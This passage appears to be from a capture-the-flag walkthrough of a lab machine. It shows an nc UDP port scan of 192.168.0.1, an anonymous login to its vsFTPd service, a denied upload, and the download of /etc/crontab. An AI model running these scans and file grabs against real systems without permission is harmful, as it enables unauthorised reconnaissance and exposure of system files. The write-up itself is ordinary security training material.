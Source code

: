 Afterwards, let us use ```nc``` again to identify the open UDP ports on this machine. 

```
root@Inception:/# nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
Connection to 192.168.0.1 53 port [udp/domain] succeeded!
Connection to 192.168.0.1 67 port [udp/bootps] succeeded!
Connection to 192.168.0.1 69 port [udp/tftp] succeeded!
root@Inception:/# 
```

### Exploiting FTP on 192.168.0.1
Let us first try to do an anonymous login on the FTP on port 21 in 192.168.0.1

```
root@Inception:/# ftp 192.168.0.1
Connected to 192.168.0.1.
220 (vsFTPd 3.0.3)
Name (192.168.0.1:cobb): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

We realized that we are unable to write files using FTP as we do not have the permissions to do so. 

```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
550 Permission denied.
```

However, we realize that we are able to download files using FTP. Using this, we can download the ```crontab`` file from the /etc directory

In the /etc directory, we realize that we do not have the permissions to download the cron.d file, but we are able to download the crontab file

```
ftp> get cron.d
local: cron.d remote: cron.d
200 PORT command successful. Consider using PASV.
550 Failed to open file.
ftp> get cron.daily
local: cron.daily remote: cron.daily
200 PORT command successful. Consider using PASV.
550 Failed to open file.
ftp> get crontab
local: crontab remote: crontab
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for crontab (826 bytes).
226 Transfer complete.
826 bytes received in 0.00 secs (15.7547 MB/s)
```
